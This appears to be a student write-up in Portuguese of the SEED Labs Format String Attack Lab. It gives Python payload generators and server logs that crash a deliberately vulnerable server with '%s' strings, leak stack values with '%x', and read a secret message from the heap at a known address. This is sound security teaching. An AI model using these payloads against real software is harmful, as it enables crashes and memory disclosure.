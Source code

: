 # SEED Labs - Format String Attack Lab

## Task 1: Crashing the Program

- build_string.py
```python
#!/usr/bin/python3
import sys

N = 1500
content = ("%s"*N).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Uma vez que, a função `printf` é chamada (na `myprintf`) sem nenhum argumento opcional, caso o input (string) seja vários `format specifiers`, o seu pointer `va_list` irá avançar para endereços além da sua stack frame. O payload, guardado em `build_string.py`, foi preenchido com vários `%s` como se pode ver acima.
Para cada format specifier `%s` a função `printf` irá tratar o valor obtido (para onde va_list aponta) como um endereço e tenta imprimir valor desse mesmo endereço. O programa irá terminar indevidamente quando a função `printf` tentar imprimir o valor de um endereço inválido (null pointers, endereços que apontam para memória protegida ou endereços virtuais que não estão mapeados na memória física).

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd740
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd668
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

Não é imprimida nenhuma mensagem de retorno, pelo que presupomos que o programa terminou sem retornar devidamente.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

Foram necessários **64** (NUM_FORMAT_SPECIFIERS) `format specifiers %x` para `0xaaaaaaaa` ser impresso. `0xaaaaaaaa` (4 bytes) foi colocado no início do payload e o valor, **64**, foi obtido por tentativa e erro. 

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 64

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaaaaaaaa
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x\n"*NUM_FORMAT_SPECIFIERS

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | ����11223344
server-10.9.0.5 | 1000
server-10.9.0.5 | 8049db5
(60 linhas ocultas)
server-10.9.0.5 | aaaaaaaa
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 2.B: Heap Data

Em relação à alínea anterior, os primeiros 4 bytes do input (variável `number`) foram substituídos pelo endereço da _secret message_, `0x080b4008`, que foi obtido através do printout do server - `"The secret message's address:  0x080b4008`. O último format specifier %x foi substituído por `%s`, assim a função `printf` trata o valor desse endereço como uma `string`

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 63

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x80b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*NUM_FORMAT_SPECIFIERS + "\n%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 1122334410008049db580e532080e61c0ffffd750ffffd67880e62d480e5000ffffd7188049f7effffd7500648049f4780e53205dc5dcffffd750ffffd75080e97200000000000000000000000000dc0af00080e500080e5000ffffdd388049effffffd7505dc5dc80e5320000ffffde040005dc
server-10.9.0.5 | A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

# CTF
